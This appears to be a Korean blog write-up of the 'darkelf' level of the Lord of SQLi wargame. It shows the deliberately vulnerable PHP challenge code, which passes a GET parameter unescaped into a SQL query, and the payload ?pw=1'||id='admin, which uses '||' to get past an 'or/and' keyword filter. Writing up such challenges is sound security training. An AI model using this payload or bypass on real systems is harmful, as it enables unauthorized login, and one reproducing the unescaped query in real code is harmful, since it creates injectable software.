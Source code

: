 ```yaml
---
layout: post
title: ! "[LOS] darkelf"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - darkelf
  - write-up
---
```


![](/assets/posts/los/darkelf.png)

`query : select id from prob_darkelf where id='guest' and pw=''`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

darkelf 문제는 지금까지의 문제를 잘 풀어냈다면 한 번에 풀 수 있다.
지금까지는 ?pw=1' or id='admin 이런 식으로 풀어지만 이 문제에서는 or와 and가 필터링 되어있다.
그렇다면 or와 and를 대신 할 무언가가 있어야 한다.

or = ||
and = && 으로 대체해주자.

`?pw=1'||id='admin`

![](/assets/posts/los/darkelf_clear.png)

